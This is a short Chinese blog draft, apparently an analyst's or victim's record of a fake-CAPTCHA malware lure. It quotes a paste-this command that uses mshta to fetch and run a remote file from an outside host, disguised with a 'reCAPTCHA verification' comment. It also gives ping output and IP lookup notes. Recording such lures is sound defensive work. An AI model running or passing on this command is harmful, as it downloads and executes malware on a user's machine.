 ```yaml
---
title: 记录病毒
published: 2025-01-20
draft: true
tags: [example]
category: 通用知识
---
```


mshta https://edidos.shop/new-riii-1-b.pub #  ✅ ''I am not a robot - reCAPTCHA Verification ID: 2165

正在 Ping edidos.shop [2606:4700:3031::6815:4977] 



这个 IP 地址 `2606:4700:3031::6815:4977` 属于 **Cloudflare**，一个内容分发网络 (CDN) 提供商，很多网站使用它来增强性能和安全性。Cloudflare 通常支持 IPv6。

目的 IP[104.83.105.241:443](https://x.threatbook.com/v5/ip/104.83.105.241)







